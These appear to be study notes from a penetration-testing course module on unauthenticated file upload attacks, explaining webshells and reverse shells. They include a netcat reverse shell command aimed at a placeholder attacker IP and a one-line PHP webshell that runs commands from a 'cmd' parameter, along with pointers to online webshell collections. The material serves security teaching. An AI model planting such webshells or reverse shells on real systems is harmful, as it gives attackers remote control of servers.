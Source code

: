 ## Types of File Upload Attacks

1. unauthenticated ==arbitrary file upload==.
    - allows any user to upload ==any file type==.
    - **attack:** gaining remote command execution.
    - **cause of the vulnerability :** usage of ( insecure functions || outdated libraries) .
        
        Webshell: A script uploaded to a web server that provides remote control of the server through a web interface.
        
        Reverse Shell: A type of shell where the target machine communicates back to the attacking machine, allowing control over the target.
        
        Webshell: An attacker uploads "webshell.php" to a compromised website. By visiting "example.com/webshell.php", the attacker can execute commands directly on the server through a web interface.
        
        Reverse Shell: An attacker tricks a target machine into running a script that connects back to the attacker's machine. For instance, using `netcat`, the target might run `nc attacker-ip 1234 -e /bin/sh`, giving the attacker control over the target from their own terminal.
        
        A Web Shell provides us with an easy method to interact with the back-end server by accepting shell commands and printing their output back to us within the web browser. A web shell has to be written in the same programming language that runs the web server, as it runs platform-specific functions and commands to execute system commands on the back-end server, making web shells non-cross-platform scripts. So, the first step would be to identify what language runs the web application.
        
        We can find many excellent web shells online that provide useful  
        features, like directory traversal or file transfer. One good option for  
        `PHP` is [phpbash](https://github.com/Arrexel/phpbash), which provides a terminal-like, semi-interactive web shell. Furthermore, [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) provides a plethora of web shells for different frameworks and languages, which can be found in the `/opt/useful/SecLists/Web-Shells` directory in `PwnBox`.
        
        Although using web shells from online resources can provide a great  
        experience, we should also know how to write a simple web shell  
        manually. This is because we may not have access to online tools during  
        some penetration tests, so we need to be able to create one when needed.
        
        For example, with `PHP` web applications, we can use the `system()` function that executes system commands and prints their output, and pass it the `cmd` parameter with `$_REQUEST['cmd']`, as follows:
        
        Code: php
        
        ```
        <?php system($_REQUEST['cmd']); ?>
        ```
        
        If we write the above script to `shell.php` and upload it to our web application, we can execute system commands with the `?cmd=` GET parameter (e.g. `?cmd=id`), as follows:
        
        [![](https://academy.hackthebox.com/storage/modules/136/file_uploads_php_manual_shell.jpg)](https://academy.hackthebox.com/storage/modules/136/file_uploads_php_manual_shell.jpg)
        
        This may not be as easy to use as other web shells we can find  
        online, but it still provides an interactive method for sending commands  
        and retrieving their output. It could be the only available option  
        during some web penetration tests.
        